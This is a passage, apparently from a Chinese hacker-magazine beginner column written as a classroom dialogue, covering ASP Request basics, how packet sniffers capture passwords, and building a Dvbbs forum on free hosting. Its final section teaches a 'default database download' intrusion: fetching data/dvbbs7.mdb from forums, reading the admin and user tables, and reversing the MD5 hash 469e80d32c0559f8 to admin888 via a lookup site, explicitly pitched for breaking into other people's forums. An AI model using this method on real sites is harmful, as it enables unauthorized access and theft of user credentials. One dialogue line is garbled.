Response.Write ("你提交的id的值是" & num)
%>
```



| 方法 | 用法 |
|---|---|
| QueryString | Request.QueryString(数据名称) |
| Form | Request.Form(数据名称) |
| Request | Request(数据名称) |

表-2：Request 三种对象用法

台上的毒药讲得口干舌燥，可台下却一片寂静。只见毒药老师拿起粉笔重重地砸在黑板上，把众人从睡梦中惊醒……（课堂对话与叙述内容，介绍先装 IIS、学习 ASP 基础后可读论坛代码）。

> **sniffer（嗅探）：原理是什么？**

一般的网卡只接受与自己地址有关的数据包，以及传输到本地的数据包；而 sniffer 可以将网卡设置为 promiscuous（混杂）模式。在这种模式下，它就能使计算机接收到传输在网络上的每一个数据包。基于 sniffer 的这个功能，可以分析各种数据包弄清楚网络结构；由于可以挖掘和修改网络中的任何一个数据包，因此也就意味着可以用来捕获各种密码以及其他敏感信息。事实上，sniffer 是黑客们常用且非常有效的一种攻击方法，也是常见防守中的安全隐患。通常 sniffer 只应用于局域网环境。关于 sniffer 的各种详细利用，大家请参见往年黑客文档相关内容。

## 脚本扫盲班（二）

## 小小菜鸟建论坛



“铃……”

菜鸟学堂的上课铃声又照常响起。迈进教室大门的毒药看到台下黑压压的一片，坐满了小菜，大吃了一惊！没想到自己这么受欢迎。不过想想也是，毕竟还是菜鸟居多，而且相当多的菜鸟不是计算机相关专业的。没有脚本基础，怎么能够看得懂大虾们高深的漏洞分析、脚本注入文章呢？所以，毒药清了清嗓子说道：“引用论坛朋友的话，授人予鱼不若授人予渔，今天我会继续授大家予渔的。”

“毒药老师我有个问题！”最前面的小菜举手说道，“我们不要打蛋我们就喜欢捉鸡，咱们能不能不打鱼啊？”

“哈哈……”其他的菜鸟同学们都大声地笑了起来。

“报告毒药老师，我们强烈要求你讲课的时候多讲些例子，不然我们理解不了，有人会说你骗钱的……”

“对啊对啊！我们想学习黑客知识，但是并不想做 ASP 程序员，不然买本 ASP 入门图书就好了，今天能不能带点跟入侵技巧有关的 ASP 知识啊？”

毒药狂汗一阵，却又装作很镇定的样子对大家说道：“你们说的意见我早就想好了，所以，今天我会教大家如何利用 X 档案免费发放的 ASP 空间制作一个属于自己的论坛，给大家体验一把做站长的感觉！然后再通过下载默认数据库的方法学会快速入侵别人论坛的技术，这样行了吗？”

#### 一、菜鸟也做论坛管理员

好多菜鸟看到一些老鸟们都拥有自己的论坛，那是相当羡慕和崇拜啊！如果自己也有一个论坛，那么就能够随便在后台熟悉各种操作环境，以后入侵别人论坛时才算知己知彼；其次，高手们分析漏洞的时候都是自己搭建个环境做测试的，很多时候我们的电脑上不能安装和使用 IIS，那么有一个网上空间来搭建环境就再合适不过了；再者，有了论坛我们就是网站管理员了，那心情不是一般的爽啊……（小菜：既然有这么多好处快别说废话了，小心我们的板儿砖）。正好赶上黑客 X 档案给我们提供了免费空间，用我们自己的空间建个论坛吧，也在网上安个小家。

### 1．申请和使用免费空间

得到 X 档案发放邀请码后，首先访问 `http://804.cn`，找到注册页面，如图1。



填入邀请码、用户名（只能用英文，否则注册成功了也无法正常开通空间）、密码等信息，提交后就可以成功注册了。这时候会自动进入论坛，很多菜鸟在论坛里找不到创建网站的地方，实际上我们应该退回到首页，那里有个大大的登录框，如图2。在这里再登录一次就能够进入空间控制面板了，图3。

单击“创建网站”，设置好我们网站的相关信息，包括过一会儿需要使用到的 FTP 用户名和密码等。关于网站的说明处有字数限制，所以大家一定要详细写好这个网站的介绍，如图4。

单击“创建”后就会出现如图5所示的界面，这个时候不要刷新页面，再点一次那个按钮后就会看到网站创建成功的提示了，如图6。







菜鸟学堂







现在我们的空间就已经开通了，不过上面目前还没有内容，我们要使用 FTP 把需要的 ASP 程序上传上去。以 CuteFTP 为例，首先在 CuteFTP 上单击“文件”→“新建”→“FTP 站点”，进入如图7所示的界面。

在“标签”处填写一个好记的说明，主机地址和 FTP 用户信息就是刚才我们设置的内容。因为水晶把 FTP 端口改在了 804，所以还需要切换到“类型”选项中，将端口设置为 804，如图8。单击“确定”，回到站点管理器中，双击刚才建立的 FTP 站点就可以连接到服务器上了。





我们从左边的本地目录里把需要上传的文件拖到右边远程目录中，就可以等着 CuteFTP 自动上传完毕了。图9中我们将文件传到了远程服务器的 web 目录下。假设我们已经上传了一个 `1.html` 到空间的 web 目录中，那么现在访问 `http://wukong.sjsoo.com/1.html` 就可以看到自己的杰作了。

### 2．架设论坛

空间都申请好了，FTP 工具也设置好了，接下来搭建论坛的事情就简单了。我们来做一个动网论坛吧。首先去动网官方下载中心（`http://down.dvbbs.net`）下载一套动网论坛程序（一般是 exe 自解压包），然后把所有文件解压到一个文件夹中（比如 `E:\wwwroot\dvbbs7`），到 CuteFTP 中找到这个目录下的所有文件，全部拖到远程服务器的 web 目录下。现在访问 `http://wukong.sjsoo.com/index.asp` 就会出现我们熟悉的动网论坛界面了。默认的管理员用户名是 `admin`，密码是 `admin888`。进入后台可以修改论坛配置信息。就这样一个论坛搭建完毕了，小菜鸟成功变成一个网站站长和论坛管理员，爽吧！



#### 三、下载默认数据库入侵法

论坛已经架设好了，小菜们是不是欣喜万分地开始用 `admin` 账号登录后台设置自己的论坛去了呢？那么现在大家在网址后面加上 `data/dvbbs7.mdb`，也就是 `http://wukong.sjsoo.com/data/dvbbs7.mdb`，回车看看会出现什么呢，如图10。



这就是动网论坛的默认数据库地址，将它下载回来，然后双击打开（需要安装有 Office 里的 Access，如果没有安装 Access 也没有关系，很多黑客软件也可以读出 mdb 文件里的内容，例如 Domain），如图11。

数据库里的 `Dv_User` 保存的是当前论坛的所有用户（当然目前只有 `admin` 一个人），`Dv_Admin` 里则保存了论坛的后台管理员信息。现在两张表中的密码处都是 `469e80d32c0559f8`，这是经过 MD5 加密后的散列。到 `http://www.cmd5.com` 可以查出它在加密前的密码明文是 `admin888`。

> 小菜：“admin888 的密码我们是不是应该修改了啊？论坛的规则支持匿名告诉你登录状态的密码状态它……”
>
> 毒药：“我们只是举例而已，如果别人已经改过密码，但是默认数据库路径还没有修改，被我们下载到了，就可以通过同样的方式查出他们修改后的密码。”
>
> 小菜：“天啊，太恐怖啦！快教教我们如何更改默认数据库的路径吧！”

